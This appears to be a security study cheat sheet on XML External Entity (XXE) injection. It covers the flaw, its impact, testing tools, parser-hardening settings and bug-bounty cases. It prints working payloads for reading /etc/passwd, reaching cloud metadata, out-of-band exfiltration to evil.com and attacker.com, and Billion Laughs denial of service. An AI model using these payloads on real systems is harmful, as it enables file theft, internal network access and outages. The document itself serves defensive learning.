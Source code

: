 # XML External Entity (XXE)

**XML External Entity) Injection** is a vulnerability that arises when an XML parser **processes user-supplied XML input** and allows the inclusion of **external entities** — typically file paths or remote URLs.

This allows attackers to:

* **Read local files**

* **Perform SSRF (Server-Side Request Forgery)**

* **Bypass firewalls**

* **DoS the server**

* **Exfiltrate data**

# Where It Happens:

 Apps that **accept XML input** (APIs, SAML, SOAP)

 Libraries that **parse XML insecurely**

 Misconfigured XML parsers that **resolve external entities by default**

# Types of XXE Attacks

## 1\. File Disclosure

Read files on the server (e.g., /etc/passwd):

\<?xml version="1.0"?\>  
\<\!DOCTYPE data \[  
  \<\!ENTITY xxe SYSTEM "file:///etc/passwd"\>  
\]\>  
\<data\>\&xxe;\</data\>

## 2\. SSRF (Server-Side Request Forgery)

Force server to connect to internal resource:  
\<\!ENTITY xxe SYSTEM "http://localhost:8080/internal-api"\>

##  3\. Out-of-Band (OOB) Exfiltration

Exfiltrate file content to attacker server:

\<\!ENTITY % ext SYSTEM "http://evil.com/steal?data=%file;"\>

## 4\. Denial of Service (Billion Laughs Attack)

Exploit parser recursion with nested entities:

\<\!ENTITY a "HAHA"\>  
\<\!ENTITY b "\&a;\&a;\&a;"\>  
\<\!ENTITY c "\&b;\&b;\&b;"\>  
...  
Causes massive memory exhaustion \= crash.

# Impact

| Impact Type | Description |
| :---- | :---- |
|  Local File Disclosure | /etc/passwd, AWS keys, config files |
|  SSRF | Internal API scanning, cloud metadata access |
|  Sensitive Data Exfiltration | Send stolen data to external server |
|  Denial of Service | Exhaust server resources with entity expansion |
|  Remote Code Execution | In some deserialization chains (rare) |

# Payload Examples

## Read Local File:

\<?xml version="1.0"?\>  
\<\!DOCTYPE root \[  
\<\!ENTITY xxe SYSTEM "file:///etc/passwd"\>  
\]\>  
\<root\>\&xxe;\</root\>

## SSRF via Metadata API:

\<\!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/"\>

## Exfiltration

\<\!ENTITY % data SYSTEM "file:///etc/hosts"\>  
\<\!ENTITY % param "\<\!ENTITY exfiltrate SYSTEM 'http://attacker.com/?x=%data;'\>"\>  
%param;

## Billion Laughs DoS:

\<\!DOCTYPE lolz \[  
 \<\!ENTITY a "lol"\>  
 \<\!ENTITY b "\&a;\&a;"\>  
 \<\!ENTITY c "\&b;\&b;"\>  
 \<\!ENTITY d "\&c;\&c;"\>  
\]\>  
\<lolz\>\&d;\</lolz\>

# Testing

| Tool | Description |
| :---- | :---- |
|  Burp Suite | Intercept XML request → insert entity payloads |
|  XXEinjector.py | Automated XXE testing tool |
|  SOAPUI / Postman | Test XML/SOAP APIs manually |
|  XML Linter Tools | Observe if parser resolves entities |
|  DNS Logs | Use Burp Collaborator or dnslog.cn to detect OOB callbacks |

# Mitigation

## 1\. Disable External Entity Resolution

**JAVA:**  
**factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);**

Python: etree.XMLParser(resolve\_entities=False)

.Net:    
XmlReaderSettings settings \= new XmlReaderSettings();  
settings.DtdProcessing \= DtdProcessing.Prohibit;

Ensure DOCTYPE and SYSTEM are disabled.

## 2\. Avoid Accepting XML When Not Needed

* Prefer **JSON** or other safer formats

* Reject XML uploads unless absolutely necessary

## 3\. Input Validation & Schema Enforcement

* Use **XML Schema (XSD)** to define allowed structure

* Reject unknown or unexpected tags/entities

## 4\. Patch XML Parsers and Libraries

* Many XXE issues exist in older libraries

* Upgrade libraries that support secure parsing by default

## 5\. WAF or DLP Rules

* Detect payloads with:

  * \<\!DOCTYPE

  * SYSTEM

  * ENTITY

# Points

XXE vulnerabilities stem from **trusting unvalidated XML content**, especially when external entities are resolved.”

“Check for **file reads, SSRF, OOB callbacks, and DoS** while performing XXE assessments.”

 “Mitigation is about **securely configuring the XML parser** — not about escaping input.”

# Real-World XXE Cases

| Company | Description |
| :---- | :---- |
| Dropbox (Bug Bounty) | XXE via file preview API |
| Facebook (Bug Bounty) | XXE in SAML SSO response parsing |
| Red Hat / Jenkins / Apache Struts | Critical XXE issues in XML parsers |
| Uber | SSRF via XXE in legacy API |

